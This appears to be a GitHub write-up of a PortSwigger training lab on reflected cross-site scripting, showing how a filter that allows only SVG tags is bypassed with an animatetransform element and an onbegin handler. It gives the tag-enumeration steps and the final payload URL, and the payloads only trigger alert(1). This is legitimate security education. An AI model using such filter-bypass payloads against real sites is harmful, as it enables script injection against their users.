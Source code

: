 # XSS - Reflected XSS with some SVG markup allowed

## 📌 Lab Details
- **Title**: Reflected XSS with some SVG markup allowed
- **Difficulty**: Practitioner
- **Category**: Cross-site Scripting
- **Lab URL**: https://portswigger.net/academy/labs/launch/20812d5112754ad4d73aab3069147bf39635016f2005c5c0062a7e766fd72ffb?referrer=%2fweb-security%2fcross-site-scripting%2fcontexts%2flab-some-svg-markup-allowed

## 🔍 Summary
This lab has a reflected XSS vulnerability, but a **WAF** blocks most of the common tags except the `<svg>` tags. To bypass it you must use a less common tag (`<animatetransform>`) and an event attribute (`onbegin`) that the WAF doesn't block.

## 🛠 Steps to Solve
1. Test basic XSS: `<img src=1 onerror=alert(1)>`.
2. Use Burp Intruder to test allowed **tags**. Finds that the `<svg>` tags gives a 200 OK response.
3. Use Burp Intruder to test allowed **event attributes**. Finds that the `onbegin` is allowed.
4. Craft the final payload: `?search="><svg><animatetransform%20onbegin=alert(1)>`.
5. Visiting the URL to confirm the attack: `https://0ae100a603e46aa4804712cf00020090.h1-web-security-academy.net/?search=%22%3E%3Csvg%3E%3Canimatetransform%20onbegin=alert(1)%3E`

## 📖 Key Takeaways
- **WAF** blocks all tags except `<svg>`.
- Use **less commong tags** and **event handlers** like `onbegin`.

## 🖼️ Screenshot 
![image](https://github.com/user-attachments/assets/1b21e46f-7842-415f-95c7-7286cd784eb2)
![image](https://github.com/user-attachments/assets/0324ffbc-ceca-4dab-9894-ad7f1ba7f58b)
![image](https://github.com/user-attachments/assets/bf50b494-fcb6-4df3-8e35-5c28c3c6a8dc)
![image](https://github.com/user-attachments/assets/11716b29-3561-476b-b365-ac08b17fc260)
![image](https://github.com/user-attachments/assets/1498d1d6-ae6f-47e6-af65-0e64dd2387d1)
![image](https://github.com/user-attachments/assets/e6903681-6fec-4600-82ea-5b173bba84bd)
![image](https://github.com/user-attachments/assets/606064b9-a94f-4fdb-848c-16e0c399100d)
![image](https://github.com/user-attachments/assets/febc4bca-a850-47f8-9e21-bb960038cc6f)
![image](https://github.com/user-attachments/assets/848b71e0-78c2-44b7-aa63-efd8b8cb7641)


